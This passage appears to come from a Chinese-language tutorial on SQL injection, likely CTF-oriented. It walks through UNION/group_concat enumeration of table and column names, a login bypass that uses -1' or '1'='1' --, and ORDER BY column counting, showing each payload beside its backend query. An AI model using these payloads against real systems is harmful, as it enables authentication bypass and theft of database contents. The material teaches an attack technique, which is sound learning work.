   这里我们基于`UNION` `GROUP_CONCAT(table_name)` 和 `information_schema.tables`

  ```sql
  1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
  1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
  # 原理同上
  # 如果要查询其他数据库 可以写为 where table_schema='databaseNAME'
  # 后台执行为：
  SELECT username,password FROM users WHERE id = 1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
  ```

  ![image-20230426201306290](https://nssctf.wdf.ink//img/WDTJ/202304262013324.png)

- 下面就是去获得 表 的对应字段名 方便我们最后一步的查询工作

  这里我们使用`UNION` `GROUP_CONCAT(column_name)` 和 `information_schema.columns`

  ```sql
  1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database()
  1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database()
  # 后台执行为：
  SELECT username,password FROM users WHERE id = 1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database();
  ```

  ![image-20230426202627021](https://nssctf.wdf.ink//img/WDTJ/202304262026058.png)

#### 字符型注入

下面我们假设一个登录系统，那么他会接收两个参数 用户名和密码 后台的查询语句可能这样写

```sql
SELECT * FROM users WHERE username='$username' AND password='$password';
```

对于这种，开发时，预期数据收到的参数都为字符，使用字符进行查询的数据库的注入漏洞 我们称为字符型注入。

与数字型不同的是，我们需要先构造单引号的闭合。

这里我们让 `$username `= `-1' or '1'='1' -- `

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' -- ' AND password='$password';
```

![image-20230426203250434](https://nssctf.wdf.ink//img/WDTJ/202304262032468.png)

就可以使`Where`的条件永真,直接输出`SELECT * FROM users`的所有内容。

同样，与数字型的注入方式类似，我们也可以使用联合查询的方法来获取数据库信息。

`order by `判断列数

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' order by 1-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 2-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 3-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 4-- ' AND password='$password'; # 报错
```

